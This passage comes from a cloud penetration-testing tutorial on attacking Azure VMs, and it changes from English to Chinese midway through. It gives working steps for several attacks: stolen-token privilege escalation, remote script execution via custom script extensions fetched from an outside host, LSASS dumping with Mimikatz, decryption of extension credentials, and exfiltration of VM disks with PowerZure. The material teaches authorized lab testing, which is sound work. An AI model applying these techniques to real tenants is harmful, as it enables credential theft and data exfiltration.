

Figure 5.24 – Results of exiting the shell and Lava and setting the token

15. Use the token to run commands against the resource manager with the owner privilege. To install jq, execute the apt install jq command. You can try the following commands, but we will only show a screenshot of the first command. For ease, the commands are included in the file at this URL: http://bit.ly/tokenexploit. Feel free to download it:

```
#### Get a list of subscriptions
```

```
curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions?api-version=2020-01-01 | jq
```

```
#### Store the subscription ID in a variable
```

```
SUB_ID=$(curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions?api-version=2020-01-01 | jq -r '.value[].subscriptionId')
```

```
#### Get a list of resource groups
```

```
curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions/${SUB_ID}/resourcegroups?api-version=2019-10-01 | jq
```

```
#### Get a list of resources
```

```
curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions/${SUB_ID}/resources?api-version=2019-10-01 | jq
```

Here is a screenshot of the first command and its output:



Figure 5.25 – Example list of the available subscriptions

Congratulations! You have successfully performed a privilege escalation from the Contributor role to the Owner role.

#### Executing VM extensions

As a final note on this section, we wanted to include using VM extensions to run commands on VMs. While this is not the simplest way to run commands, it may be your only option in certain situations.

Azure VM extensions are tools used by administrators to configure VMs after they have been deployed. As a way of customizing these extensions for different uses, Microsoft allows for custom script extensions to be created, based on a schema that they have defined.

This schema includes file URIs or URLs that point to script files that allow us to specify a PowerShell file that we want to execute. As attackers, we will need a web server to host the file URIs. We would suggest either using the web hosting feature built into Azure Blob Storage or using Azure App Service for hosting the files.

The command for running the custom script extension consists of the following parameters:

- **ResourceGroupName**: The resource group for the VM.
- **VMName**: The name of the VM.
- **Location**: The region the VM is in.
- **FileUri**: The HTTP/HTTPS URL for the script file.
- **Run**: The file to run; this should be the same as the ps1 filename.
- **Name**: The name that the custom script extension will have:

```
PS C:\> Set-AzVMCustomScriptExtension -ResourceGroupName TEST -VMName PentestVM -Location westcentralus -FileUri 'http://book.azurepentesting.com/whoami.ps1' -Run 'whoami.ps1' -Name CustomScriptExtension
```

In the preceding command example, we will run the whoami.ps1 script (hosted on book.azurepentesting.com) on the PentestVM host. In a more practical scenario, we would use the custom script extension to create a reverse shell or add a new user to the VM.

> **Important note**
> This chapter happens to feature two research items from one of the book's technical reviewers, Jake Karnes. We highly recommend checking out his in-depth post on using Azure VM extensions to launch Covenant C2 implants on Azure VMs: https://blog.netspi.com/attacking-azure-with-custom-script-extensions/.

While this is another blind command execution method, it can be handy for getting an initial foothold onto a VM. This method also concludes our section on the Azure features that we can use as a Contributor on a subscription. Next, we will review the data that we want to gather from the VMs using the methods we just reviewed.

#### Extracting data from Azure VMs

We now have a good understanding of many of the options that we have for manipulating Azure VMs as a Contributor. With this access, we will want to start gathering sensitive information and credentials from these VMs, to escalate privileges in the tenant and, potentially, the AD domain.

Here are some of the general types of information that we will want to gather from the VMs:

- Windows NTLM hashes and in-memory credentials
- Credentials stored in VM extension settings
- Sensitive files and local administrator password hashes

We have already covered finding managed identities and gathering tokens from them, but they are also a key target for extracting credential data from VMs.

#### Gathering local credentials with Mimikatz

While an entire book could be written on all the features of Mimikatz, we will just cover the basics that are needed for extracting credentials from Windows VMs. The most basic way of running Mimikatz is running the executable on a victim machine. While this can work, any reasonably up-to-date Endpoint Detection and Response (EDR) software will catch the executable as soon as it is written to the virtual disk.

If we are dealing with a less mature EDR, we could try running it in memory with the Invoke-Mimikatz PowerShell script, or by using another technique to load Mimikatz directly into memory. This may be viable for some weaker EDR configurations, but we see this get caught more frequently as well.

Finally, we can try dumping the LSASS process memory and parsing it offline with Mimikatz. This prevents us from ever putting Mimikatz on a VM, and it is much less likely to throw out any alerts. Many of the defensive tools are now monitoring the LSASS process and protecting the memory space from being dumped, so your mileage may vary.

On the plus side, it is not uncommon to run into a development VM with little to no endpoint protection on it. These can be great sources of credentials or they can be totally empty development machines. Either way, we will go through our final technique as an example of running Mimikatz offline to parse an LSASS dump as follows:

- 1. On the target VM, open Task Manager (press Ctrl + Shift + Esc or type taskmgr in the Start menu).


+   2. 在 **详细信息** 选项卡下，找到 lsass.exe 进程。
+   3. 右键单击 lsass 进程，然后选择 **创建转储文件**：



图 5.26 – 创建 LSASS 转储文件

+   4. 当转储文件写入完成后，Windows 会共享生成的 .dmp 文件的路径。
+   5. 导航到该文件夹，将 .dmp 文件从 VM 复制到你的测试系统。
+   6. 在你的测试系统上，打开一个特权 PowerShell 或 CMD 会话，并从 GitHub 下载 Mimikatz：https://github.com/gentilkiwi/mimikatz。
+   7. 运行 Mimikatz 可执行文件，并使用 sekurlsa::minidump lsass.dmp 命令将 .dmp 文件加载到 Mimikatz 中。

8. 你可以使用完整的 sekurlsa::logonPasswords 命令提取系统中最近登录用户的凭据（哈希和/或明文）：



图 5.27 – Mimikatz 输出示例

请记住，这是从系统中获取 LSASS 内存转储的最简单方法之一。创建转储文件或访问 LSASS 内存空间的方法有很多种，而这种方法可能并不总是奏效。

虽然这并不是在 Azure 中运行 Mimikatz 的全面指南，但希望它能帮助你开始了解从 LSASS 内存空间解析凭据的基础知识。接下来，我们将从内存转向文件，开始分析 VM 扩展设置文件。

#### 从 VM 扩展设置中收集凭据

如前所述，VM 扩展是 VM 整体管理的一部分。虽然它们更常用于应用补丁和微小的配置更改，但它们也用于我们之前用于命令执行的 Run Command 基础设施中。

作为扩展执行和日志记录的一部分，它们会将扩展配置文件与日志存储在 VM 上。解析这些文件可以获取敏感信息，包括凭据。其中最主要的问题之一是域加入扩展，它最终可能会存储用于将 VM 加入域的凭据。

> **重要说明**
> 
> 要警惕域加入凭据。它们不仅可能记录在 Run Command 扩展日志中，还可能出现在未正常关闭的 PowerShell ISE 会话中。
> 
> 作为 VM 上的默认本地管理员账户，你可以打开 PowerShell ISE，查看是否有任何脚本被自动恢复。作者曾见过许多这样的情况：管理员通过 ISE 中执行的脚本将 VM 加入域，但由于未正常关闭，在下次使用本地管理员用户启动 ISE 会话时，这些凭据可能会被恢复。

作为 VM 上的本地管理员，我们可以使用 VM 上的证书来解密 VM 扩展存储的受保护设置。要从扩展中提取这些数据点，我们将采取以下步骤：

+   1. 在 Windows VM 上以本地管理员身份打开 PowerShell 会话。
+   2. 从 MicroBurst 工具包导入 `Get-AzureVMExtensionSettings` 函数：`https://github.com/NetSPI/MicroBurst/blob/master/Misc/Get-AzureVMExtensionSettings.ps1`。
+   3. 运行 `Get-AzureVMExtensionSettings` 函数并观察结果。

运行此脚本后，你应该会在输出中看到多个 `ProtectedSettingsDecrypted` 实例，其中包含敏感的扩展信息。如果你之前按照命令执行技术进行了操作，你还应该在结果中看到你之前发出的命令。

> **重要说明**
> 
> 由于 Jake Karnes 更能解释让我们能够读取这些文件的核心问题，请查看他的博客，其中解释了该问题的来源和利用方式：`https://blog.netspi.com/decrypting-azure-vm-extension-settings-with-get-azurevmextensionsettings/`。

既然我们已经介绍了提取凭据的内存和磁盘选项，接下来让我们通过 Azure 磁盘导出功能来看一种更静态的分析类型。

#### 利用磁盘导出和快照导出功能

与本地 VM 类似，Azure VM 也挂载了虚拟磁盘用于数据存储。Azure VM 至少挂载一个操作系统磁盘，但也可能挂载额外的数据磁盘。这些磁盘可能包含渗透测试人员可以在后续攻击阶段利用的有用信息。

Azure 平台有一个名为 Disk Export 的功能，可用于生成临时公共共享访问签名（SAS）URL 来下载 VM 磁盘。此功能旨在让管理员和开发人员更轻松地将磁盘从一个 Azure 区域复制到另一个区域，例如用于灾难恢复场景。攻击者也可以利用此功能将数据外泄到组织外部！

要从 Azure 门户使用此功能，你可以转到 Azure 中的“磁盘”边栏选项卡，选择磁盘，单击“磁盘导出”选项，然后按图 5.28 中突出显示的“生成 URL”按钮：



图 5.28 – 磁盘导出的 URL 生成

需要注意的是，磁盘导出功能只能用于未挂载到正在运行的 VM 的磁盘。如果磁盘已挂载到正在运行的 VM，我们可以先创建磁盘的快照，然后使用类似的快照导出功能（图 5.29）生成临时 SAS URL，通过该 URL 从互联网下载快照：



图 5.29 – 快照 URL 功能

由于许多原因，这些磁盘和快照最终可能会存储在存储帐户中。当这些存储帐户中的文件被公开时，这可能会产生额外的影响。

> **重要说明**
> 下载 VHD 文件时，请记住文件的大小。从 Azure 门户进行的典型 HTTP 下载可能难以处理大型磁盘。此外，你可能希望使用具有足够磁盘空间的 Azure VM 来复制 VHD 文件。通过使用 Azure 背板网络复制到 VM 磁盘，可以在下载过程中节省大量时间。

如前所述，下载 Azure 虚拟磁盘可能会对带宽产生显著影响，因此实际操作中可能不是最有趣的体验。在渗透测试中，当你可以访问磁盘上的所有文件和密码哈希时，你的耐心会得到回报。此外，我们甚至可以在 Hyper-V 中启动 VHD 文件。

另外需要注意的一点是磁盘使用的加密方式。如果磁盘使用客户管理的密钥（请参阅“加密”选项卡）加密，你将需要从密钥保管库中获取密钥来解密。这超出了本书的范围，但你在处理磁盘时需要牢记这一点。

#### 动手练习 – 使用 PowerZure 外泄 VM 磁盘

在本练习中，我们将利用 Azure VM 的磁盘导出功能来外泄未挂载或保留的 VM 磁盘。以下是我们将在本练习中完成的任务：

+   1. 在你的渗透测试 VM 上打开 PowerShell。
+   2. 使用以下命令对 Azure 进行身份验证。出现提示时，输入本章前面场景设置脚本中创建的 contributoruser 账户的凭据：
+   3. 在 PowerShell 控制台中，使用以下命令导入 PowerZure 模块：
+   4. 使用以下命令获取所有未挂载 VM 磁盘的列表：

```
PS C:\> Connect-AzAccount
```

```
PS C:\> cd C:\Users\$env:USERNAME\PowerZure
```

```
PS C:\> Import-Module .\PowerZure.ps1
```

以下是命令的屏幕截图：



图 5.30 – 将 PowerZure 导入到会话中

```
PS C:\> Get-AzDisk | Where-Object {$_.DiskState -ne "Attached"} | Select Name, DiskState, Encryption
```

以下是命令输出的屏幕截图：



图 5.31 – 可用于导出的磁盘

命令的输出应返回所有当前未挂载到正在运行的 VM 的托管磁盘及其加密状态。在你的输出中，你应该会看到一个名称以 winvm02 开头的磁盘；请记下该磁盘名称，下一步将需要用到它。

+   5. 在 PowerShell 控制台中，使用以下命令生成一个可公开访问的 URL，以导出上一步中标识的磁盘。将 <DISK_NAME_FROM_STEP_4> 占位符替换为上一步中标识的磁盘名称：

```
PS C:\> Get-AzureVMDisk -DiskName <DISK_NAME_FROM_STEP_4>
```

以下是命令及其输出的屏幕截图：



图 5.32 – 磁盘导出 URL 生成

Get-AzureVMDisk 是一个 PowerZure 模块，它利用磁盘导出功能生成下载 VM 磁盘的链接。你应该会从命令输出中获得一个 URL。请记下此 URL，下一步将需要用到它。

+   6. 最后一步完全可选。如果你想在此节省时间、带宽和磁盘空间，可以暂停练习，记住这项技术，以便在未来的测试中遇到磁盘时使用。除了对磁盘进行一些取证以查找文件和哈希之外，在练习的这个阶段，我们暂时没有太多其他事可做。


如果要下载磁盘，请打开一个 Web 浏览器并浏览到上一 步中获得的 URL，从互联网下载磁盘：



图 5.33 – 在浏览器中启动磁盘下载

此时，我们将可以访问该 VM 的 VHD 硬盘文件。此文件可以直接挂载到另一台 VM 中，并且此时可以解析出敏感文件和 Windows 密码哈希。

#### 实践练习 – 清理 Contributor（IaaS）利用场景

在本最终练习中，我们将使用清理脚本来自动化删除本章场景中设置的资源。以下是本练习中我们将完成的任务：

- 从 GitHub 下载清理脚本。
- 运行脚本以删除为场景创建的对象和资源。

以下是完成这些任务的步骤：

1. 打开一个 Web 浏览器并浏览到 `https://portal.azure.com` 上的 Azure 门户。使用 `azureadmin` 凭据登录。
2. 在 Azure 门户中，单击 Azure 门户右上角的 Cloud Shell 图标。选择 **PowerShell**：


图 5.34 – 打开 Cloud Shell 的链接

3. 在 Cloud Shell 窗格内的 PowerShell 会话中，运行以下命令下载用于删除本章场景创建的资源的脚本。同时，验证下载：

```
PS C:\> Invoke-WebRequest https://bit.ly/contributor-iaas-scenarios-cleanup -O contributor-iaas-scenarios-cleanup.ps1
PS C:\> Get-ChildItem
```

以下是其外观的屏幕截图：



图 5.35 – 下载脚本的结果

4. 运行下载的脚本以使用以下命令删除本章练习中创建的对象和资源：

```
PS C:\> ./contributor-iaas-scenarios-cleanup.ps1
```

等待脚本完成。完成可能需要大约 8 分钟：



图 5.36 – 运行清理脚本的结果

恭喜！你已完成本章中的所有练习场景，并成功从你的订阅中删除了设置的资源。

#### 总结

正如本章所述，攻击 Azure 中托管的 VM 有很多方法。作为渗透测试人员，我们需要准备好在多个不同层面上攻击 VM。这可能是在平台层级（从门户运行命令）、运行中的操作系统层级（提取凭据）或操作系统磁盘层级（提取哈希）。所有这些技能的结合将使我们在攻击 Azure 环境时更加全面。

虽然 VM 可能是云服务的初始用例之一，但越来越多的组织开始将新应用程序构建为 *cloud-native* 部署。这意味着应用程序依赖于 Azure 中许多平台即服务资源。我们将在下一章看到攻击这些服务的许多方法。

在下一章中，我们将更仔细地研究 Azure 中的 **Platform as a Service (PaaS)** 服务，以及攻击者可能如何利用配置并从服务中收集凭据。

#### 进一步阅读

如果你想在该主题上了解更多，请查看以下资源：

- *Run PowerShell scripts in your Windows VM by using Run Command:*
  `https://docs.microsoft.com/en-us/azure/virtual-machines/windows/run-command`
- *Run shell scripts in your Linux VM by using Run Command:*
  `https://docs.microsoft.com/en-us/azure/virtual-machines/linux/run-command`
- Reset the local administrator password using the VMAccess extension:
  `https://docs.microsoft.com/en-us/troubleshoot/azure/virtual-machines/reset-rdp`
